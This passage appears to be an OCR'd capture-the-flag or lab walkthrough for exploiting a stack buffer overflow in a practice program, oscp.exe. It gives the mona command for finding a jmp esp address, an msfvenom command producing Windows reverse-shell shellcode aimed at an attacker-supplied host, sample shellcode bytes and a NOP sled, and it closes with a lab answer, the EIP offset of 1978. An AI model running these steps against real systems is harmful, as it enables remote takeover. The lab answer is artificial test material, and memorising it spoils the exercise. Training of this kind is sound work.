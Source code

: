 ```bat
!mona jmp -r esp -cpb "\x00\x07\x08\x2e\x2f\xa0\xa1"
```

* This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window (use the Window menu to switch to it if needed).

* Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

### __Generate Payload__

* Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with all the badchars you identified (including \x00):

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```

* Copy the generated C code strings and integrate them into your exploit.py script payload variable using the following notation:

```bash
payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
...
"\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
"\x19\x53\xd0\x92\x19\x53\x2e\x1d")
```

### __Prepend NOPs__

* Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

```
padding = "\x90" * 16
```

### __Exploit!__

* With the correct prefix, offset, return address, padding, and payload set, you can now exploit the buffer overflow to get a reverse shell.

* Start a netcat listener on your Kali box using the LPORT you specified in the msfvenom command (4444 if you didn't change it).

* Restart oscp.exe in Immunity and run the modified exploit.py script again. Your netcat listener should catch a reverse shell!

---
* What is the EIP offset for OVERFLOW1?

```
1978
```
